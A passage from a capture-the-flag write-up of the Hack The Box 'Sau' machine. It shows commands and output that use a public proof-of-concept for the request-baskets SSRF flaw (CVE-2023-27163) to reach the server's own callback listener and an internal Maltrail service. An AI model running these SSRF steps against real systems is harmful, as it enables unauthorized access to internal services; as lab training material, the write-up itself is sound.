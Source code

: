 ###### Website enumeration
The website at port 55555 appears to be providing a service where we can create a basket that can receive and log the requests made to the basket, something like webhook.site and requestcatcher.com.

![Image Description](/images/Pasted%20image%2020250205204021.png)

![Image Description](/images/Pasted%20image%2020250205203940.png)

#### Shell as puma
###### SSRF to RCE
In the footer of the page, I see that it is running `request-baskets 1.2.1`. When I google to check if the version has any vulnerability, I came across [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163), which shows that this version is vulnerable to SSRF. I also found this [exploit PoC](https://github.com/entr0pie/CVE-2023-27163).

I downloaded the exploit PoC and tried it to make a request to my self-hosted Python server, and it works.

```
# Terminal 1
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/sau-linux]
└─$ ./CVE-2023-27163.sh http://10.10.11.224:55555 http://10.10.16.4:8000
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "ljrzba" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/ljrzba now makes the server request to http://10.10.16.4:8000.
> Authorization: Y_smT_xjOpbAa6_1RyTrQdA7KMC-mxQP5KzIgtTNWErE

┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/sau-linux]
└─$ curl http://10.10.11.224:55555/ljrzba
...SNIP...

# Terminal 2
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/sau-linux]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.224 - - [05/Feb/2025 20:46:49] "GET / HTTP/1.1" 200 -
```

Now that I have a working SSRF, the first thing I do is to try to access any web servers that are only available locally on the machine. I will try the common ports for web servers first, like port 80, port 8080, port 8000, etc. 

I found that there is a website running locally on port 80. The footer of the page shows that website runs `Maltrail v0.53`.

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/sau-linux]
└─$ ./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "lqhcdo" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/lqhcdo now makes the server request to http://127.0.0.1:80.
> Authorization: OqWe8UtOFhF3-NAEe_duVBSeGi-2dYfjjfJYFHSPrewk

┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/sau-linux]
└─$ curl http://10.10.11.224:55555/lqhcdo
...SNIP...
        <div id="bottom_blank"></div>
        <div class="bottom noselect">Powered by <b>M</b>altrail (v<b>0.53</b>)</div>
...SNIP...
```